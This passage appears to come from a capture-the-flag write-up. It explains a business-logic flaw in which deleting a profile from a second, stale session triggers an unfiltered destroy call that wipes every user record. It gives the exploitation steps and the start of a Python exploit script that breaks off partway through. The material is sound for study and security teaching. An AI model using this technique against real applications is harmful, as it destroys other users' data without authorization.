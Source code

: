 ```js
```

It'll first check the logged in username is `admin` or the same username as the POST parameter's value.

Then, it'll find the `username`'s data.

Finally, delete the `user`'s data and destroy the session.

## Exploitation

Hmm... I wonder **what if we logged in to the same account with 2 different session, and delete the profile?** Will it delete all users in the second deletion as the `user` is empty?

Now, there're 2 session logged in to the same account, even if we delete the account in the first session, the second session is still valid, thus the delete profile route is vulnerable to business logic vulnerability, where it doesn't check the current session's user is deleted or not.

- Session 1 delete `foo` user:

1. POST to `/user/foo/delete`
2. `username` = `foo`
3. `loggedInUsername` = `foo`
4. `user` = `username: 'foo', password: 'bar', profile: 'foobar'`
5. Delete record's data via `user`

- Session 2 delete `foo` user:

1. POST to `/user/foo/delete`
2. `username` = `foo`
3. `loggedInUsername` = `foo`
4. **`user` = `null`**
5. **Delete table `User` due to empty `where` clause: `User.destory({ where: {} })`**

**Let's write a Python script!**
```python
#!/usr/bin/env python3
import requests
from base64 import b64encode
from bs4 import BeautifulSoup

class Exploit:
    def __init__(self, baseUrl, isLocal, basicAuthUsername, basicAuthPassword):
        self.baseUrl = baseUrl
        self.isLocal = isLocal
        self.basicAuthUsername = basicAuthUsername
        self.basicAuthPassword = basicAuthPassword

    def basicAuth(self):
        token = b64encode(f'{self.basicAuthUsername}:{self.basicAuthPassword}'.encode('utf-8')).decode('ascii')
        return f'Basic {token}'

    def sendRequest(self, session, method, endpoint, data=None):
        isPostMethod = True if method.lower() == 'post' else False
        isGetMethod = True if method.lower() == 'get' else False
        headers = {'Authorization' : self.basicAuth()} if basicAuthUsername is not None and basicAuthPassword is not None else None

        if isPostMethod:
            if self.isLocal:
                response = session.post(f'{self.baseUrl}{endpoint}', data=data)
                return response.text

            response = session.post(f'{self.baseUrl}{endpoint}', data=data, headers=headers)
            return response.text

```